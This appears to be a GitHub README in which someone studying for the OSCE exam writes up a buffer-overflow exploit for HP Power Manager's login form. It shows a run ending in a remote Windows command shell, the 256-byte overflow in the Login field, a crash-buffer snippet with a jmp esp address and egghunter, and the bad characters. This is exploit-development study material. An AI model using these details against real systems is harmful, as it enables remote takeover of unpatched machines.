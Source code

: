 # HP-Power-Manager

    dev@ubuntu:~# python HPPowerManager.py 192.168.126.209
    [+] Trying to exploit 192.168.126.209
    [+] Sending payload
    [+] Trying to connect to target
    [+] Please wait to thirty seconds...

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>

An overflow in the Login of the post request  
    HtmlOnly=true&Login=admin{}&Password=admin&loginButton=Submit+Login

Sending 256 bytes of data will trigger this overflow. 
Was just studying the exploit originally created by ryujin , which you can find here: https://www.exploit-db.com/exploits/10099/  
Have to prep for that OSCE Exam yo!

There was also more bytes that could crash the service which leads to an SEH overflow, however, all the addresses had a nullbyte in them.   
Interestingly, used the nullbyte to help me find the amount of this crash as so:

    crash = "A" * 256
    crash += pack('<L', 0x7608BCCF)
    crash += "B" * 20
    crash += egghunter
    crash += '\x00'

Without the null, I wasn't able to hit my breakpoint after 256 bytes

Just used the same address as ryujin did: 

    Message=  0x7608bccf : jmp esp |  {PAGE_EXECUTE_READ} [MSVCP60.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v6.02.3104.0 (C:\Program Files\HP\Power Manager\MSVCP60.dll)
    
There were no bad characters with the exception of '\x00'

Useful Notes:  
256 bytes to crash the app  
0x7608bccf : jmp esp in MSVCP60.dll  
egghunter : haha  
badchars : \x00  

